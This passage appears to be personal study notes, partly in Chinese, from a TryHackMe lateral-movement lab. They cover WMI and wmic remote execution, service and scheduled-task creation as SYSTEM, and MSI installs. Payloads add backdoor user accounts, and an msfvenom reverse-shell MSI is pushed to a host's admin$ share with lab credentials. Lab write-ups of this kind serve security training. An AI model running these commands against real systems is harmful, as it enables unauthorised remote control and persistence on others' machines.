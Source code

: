 			$Command = "powershell.exe -Command Set-Content -Path C:\text.txt -Value munrawashere";
			Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{
			CommandLine = $Command
			}	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		使用 wmic: 	
			wmic.exe /user:Administrator /password:Mypass123 /node:TARGET process call create "cmd.exe /c calc.exe" 	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	使用WMI遠端建立服務 :	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		建立名為 THMService2 的服務 : 
			Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
			Name = "THMService2";
			DisplayName = "THMService2";
			PathName = "net user munra2 Pass123 /add"; # Your payload
			ServiceType = [byte]::Parse("16"); # Win32OwnProcess : Start service in a new process
			StartMode = "Manual"
			}
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~			
		啟動它 :
			$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'THMService2'"
			Invoke-CimMethod -InputObject $Service -MethodName StartService
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~		
		停止並刪除該服務 :	
			Invoke-CimMethod -InputObject $Service -MethodName StopService
			Invoke-CimMethod -InputObject $Service -MethodName Delete	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	使用WMI遠端建立排程任務	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		建立並執行排程任務 :
			# Payload must be split in Command and Args
			$Command = "cmd.exe"
			$Args = "/c net user munra22 aSdf1234 /add"

			$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
			Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "THMtask2"
			Start-ScheduledTask -CimSession $Session -TaskName "THMtask2"	
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
		使用完計劃任務後將其刪除 :
			Unregister-ScheduledTask -CimSession $Session -TaskName "THMtask2"	
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	透過WMI安裝 MSI 套件
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		嘗試透過WMI呼叫 Win32_Product 類別來安裝它
			Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
		~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
		使用 wmic
			wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> ssh za\\damien.horton@thmjmp2.za.tryhackme.com
		=> pABqHYKsG8L7
	--> 管理存取權限的憑證
		=> ZA.TRYHACKME.COM\t1_corine.waters：  Korine.1994
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~	
	--> msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > myinstler020.msi	
	--> smbclient -c 'put myinstler020.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994	
